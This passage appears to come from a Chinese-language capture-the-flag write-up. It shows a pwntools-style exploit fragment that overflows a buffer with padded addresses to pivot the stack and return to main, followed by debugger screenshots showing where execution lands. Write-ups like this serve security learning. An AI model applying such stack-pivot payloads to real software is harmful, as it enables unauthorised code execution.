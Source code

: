 ```bash
syscall2=0x40118A #syscall
syscall=0x401060  #syscall_plt
rax_15 = 0x401193
main = 0x401421

pl='aaaaaaaa'
sa('easyhack\n',pl)
sa('SUID?\n',b'\x00'*(0x2a)+p64(0x404080)+p64(0x401421))
s(b'\x00'*(0x2a)+p64(0x404080+0x2a)+p64(0x401421))

duan()
s(p64(0x404080+0x2a+0x10))  

itr()
```

首先我们先去测试一下迁移过去会执行到哪

[![](assets/1703640353-02969139b09b9af8feadb63f5a523f06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191926-766ce00a-a317-1.png)  
pause 的时候是这个状态，然后输入 p64(0x404060+0x2a+0x10) 后往下调试一下是这个状态

[![](assets/1703640353-3a11d8b551f686c5b276bf670a7b0e3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191934-7b93f974-a317-1.png)  
之后就是去执行了
